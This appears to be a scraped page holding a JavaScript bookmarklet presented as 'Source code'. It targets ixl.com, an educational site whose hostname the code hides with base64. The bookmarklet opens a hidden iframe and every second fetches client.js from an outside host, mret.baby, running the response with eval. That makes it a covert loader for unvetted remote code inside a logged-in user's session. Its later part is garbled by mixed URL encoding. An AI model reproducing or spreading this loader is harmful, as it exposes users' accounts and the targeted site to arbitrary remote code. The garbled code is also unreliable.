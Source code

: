 javascript:(async()=>{if(!location.hostname.includes(atob("aXhsLmNvbQ==")))return alert("wrong site");if(window.mret)return alert("mret already loaded");window.mret={api:"https://mret.baby/"};let frame=document.createElement("iframe");frame.src="/dv3/"+Math.random().toString(36).slice(2),frame.style.display="none",frame.id="MretContext",document.body.appendChild(frame),window.mret.context=frame.contentWindow,window.mret.fetch=window.mret.context.fetch.bind(window.mret.context);let fetchInterval=setInterval(async()=>{await window.mret.fetch(window.mret.api+"client.js?%22+Date.now()).then(async%20response=%3E{if(200===response.status)return%20clearInterval(fetchInterval),eval(await%20response.text())})},1e3)})();
